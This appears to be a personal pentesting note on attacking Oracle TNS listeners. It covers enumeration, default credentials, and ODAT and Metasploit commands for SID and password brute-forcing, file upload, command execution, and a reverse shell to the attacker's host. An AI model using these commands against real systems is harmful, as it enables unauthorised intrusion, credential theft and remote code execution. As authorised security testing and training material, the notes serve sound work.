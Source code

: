 # Oracle-TNS

[GitHub SnowWight hackdocs](https://github.com/TheSnowWight/hackdocs/blob/master/pentesting/1521-1522-1529-pentesting-oracle-listener/README.md) - this hackdocs is awesome and better than HackTricks

Oracle database (Oracle DB) is a relational database management system (RDBMS) from the Oracle Corporation (from [here](https://www.techopedia.com/definition/8711/oracle-database)).
1521
1522 - Default
1523-9 potential secondary listeners

1. **Enumerate version** info \(search for **known vulns**\)
	 - `nmap -sV
	 - `msf> use auxiliary/scanner/oracle/tnslsnr_version`
	 - `tnscmd10g version -p 1521 -h $IP`
2. **Bruteforce TNS listener** communication \(not always needed\)
3. **Enumerate**/Bruteforce **SID names** \(like database names\)
	- Important as interaction requires SID ie: `XE`
		- `msf> use auxiliary/scanner/oracle/sid_enum`
		- `odat.py all`
4. **Bruteforce credentials** for valid SID name discovered
5. Try to **execute code**

Other useful TNS listener commands:

| **Command**  | **Purpose**                                                     |
| :----------- | :-------------------------------------------------------------- |
| ping         | Ping the listener                                               |
| version      | Provide output of the listener version and platform information |
| status       | Return the current status and variables used by the listener    |
| services     | Dump service data                                               |
| debug        | Dump debugging information to the listener log                  |
| reload       | Reload the listener configuration file                          |
| save\_config | Write the listener configuration file to a backup location      |
| stop         | Invoke listener shutdown                                        |

Default passwords associated with Oracle:
* **DBSNMP/DBSNMP** — Intelligent Agent uses this to talk to the db server \(its some work to change it\)
* **SYS/CHANGE\_ON\_INSTALL** — Default sysdba account before and including Oracle v9, as of version 10g this has to be different!
* **PCMS\_SYS/PCMS\_SYS** — Default x account
* **WMSYS/WMSYS** — Default x account
* **OUTLN/OUTLN** — Default x account
* **SCOTT/TIGER** — Default x account

You need [[ODAT]]:
[medium article by Mario Rufisanto on Oracle TNS Pentesting 2024](https://medium.com/fmisec/oracle-tns-penetration-test-using-odat-83fafcea1988) - 2024. Updated - removed `<>`
```bash
#!/bin/bash  
  
sudo apt-get install libaio1 python3-dev alien python3-pip -y  
git clone https://github.com/quentinhardy/odat.git  
cd odat/  
git submodule init  
git submodule update  
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y  
pip3 install cx_Oracle  
sudo apt-get install python3-scapy -y  
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap  
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

`sqlplus` [[SQLPlus]]
```bash
# if error:
# `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig


sqlplus $username/$password@$IP:$port/$SID;
# Always check if account has sysdma access (system database priviledges)
sqlplus $username/$password@$IP:$port/$SID as sysdma;
# as sysop # system operator
```


Useful commands - some commands **DO NOT AND WILL NOT EVER WORK**
 ```bash

# ./odat.py java !! does not work !!  
 
# Remember Odat is like impacket there are lots of tools
# Takes awhile and there are prompts
./odat.py all -s $ip

# service name guessing is required
./odat.py snguesser -s $ip
# SID Guess is required
./odat.py snguesser -s $ip

# this tool asks alot try a different tool for this
./odat.py passwordguesser -s $ip

# With valid credentials and permission you can upload a shell and execute it 
# Weirdly it has whitespace for the path then the file
./odat.py utlfile -s <target_ip> -p 1521 -d <SID> -U username -P password --getFile remotePath remoteFile localFile

./odat.py utlfile -s <target_ip> -p 1521 -d <SID> -U username -P password  --putFile remotePath remoteFile localFile

./odat.py utlfile -s <target_ip> -p 1521 -d <SID> -U username -P password ----removeFile remotePath remoteFile 

# This seems weird from an OPSEC, but this tool is from a different era
./odat.py utlfile -s <target_ip> -p 1521 -d <SID> -U username -P password --test-module 

# Never managed to make work but SnowWight has it
./odat.py dbmsscheduler -s <IP> -d <SID> -U <username> -P <password> --exec "C:\windows\system32\cmd.exe /c echo 123&gt;&gt;C:\hacK"

# Will prompt for a http server to serve reverse shell window and linux compatible
./odat.py dbmsscheduler -s <IP> -d <SID> -U <username> -P <password> --reverse-shell $localIP $port
```

[[Metasploit]]
```ruby 
# Some old version of MSF can just ask for SID
#msf1
msf> use auxiliary/scanner/oracle/sid_enum
msf> set rhost <IP>
msf> run
#msf2
msf> use auxiliary/admin/oracle/tnscmd
msf> set CMD (CONNECT_DATA=(COMMAND=STATUS))
msf> set rhost <IP>
msf> run #The SID are inside: SERVICE=(SERVICE_NAME=<SID_NAME>)

#msf6 
# Brute force the SID
msf>use auxiliary/admin/oracle/sid_brute
# Brute force user accounts
msf>scanner/oracle/oracle_login

```

## Vulnerabilities

11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2, and 11.2.0.3 are vulnerable to offline brute force

Vulnerability tested on oracle 10.1.0.3.0 – should work on thru 10.1.0.5.0 and supposedly on 11g. Fixed with Oracle Critical Patch update October 2007.

```ruby
msf> use auxiliary/sqli/oracle/lt_findricset_cursor
```
####  TNS Listener Poisoning

Odat can perform this, [GitHub bongbongco/CVE-2012-1675 PoC](https://github.com/bongbongco/CVE-2012-1675/blob/master/oracle-tns-poison.nse)


## References

[GitHub SnowWight hackdocs](https://github.com/TheSnowWight/hackdocs/blob/master/pentesting/1521-1522-1529-pentesting-oracle-listener/README.md)
[GitHub bongbongco/CVE-2012-1675 PoC](https://github.com/bongbongco/CVE-2012-1675/blob/master/oracle-tns-poison.nse)
[Medium article by Mario Rufisanto on Oracle TNS Pentesting 2024](https://medium.com/fmisec/oracle-tns-penetration-test-using-odat-83fafcea1988) 